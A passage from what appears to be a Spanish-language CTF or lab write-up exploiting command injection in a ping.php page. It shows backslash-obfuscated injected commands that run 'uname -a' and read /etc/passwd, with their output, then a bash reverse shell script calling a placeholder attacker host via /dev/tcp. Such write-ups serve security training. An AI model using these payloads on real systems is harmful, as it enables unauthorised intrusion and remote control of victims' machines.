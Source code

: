 Pone `Words: 11` por lo que sabemos que algo esta poniendo en la pagina, si probamos a utilizar dicho `payload`:

```
URL = http://<IP>/ping.php?ip=192.168.1.146;%5Cu%5Cn%5Ca%5Cm%5Ce+%5C-%5Ca
```

Info:

```
Linux b2e08b52d168 6.11.2-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.11.2-1kali1 (2024-10-15) x86_64 GNU/Linux
```

Vemos que se esta ejecutando de forma correcta, por lo que vamos a probar a utilizar la misma mecanica, pero para leer el archivo `passwd`.

```
URL = http://<IP>/ping.php?ip=<IP_ATTACKER>;\c\a\t+/e\t\c/p\a\s\s\w\d
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
balutin:x:1000:1000:balutin,,,:/home/balutin:/bin/bash
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
tcpdump:x:101:103::/nonexistent:/usr/sbin/nologin
```

Vemos que se esta volcando de forma correcta, por lo que vamos a realizar un `reverse shell`.

Vamos a generar el archivo `shell.sh` con la `reverse shell`:

> shell.sh

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
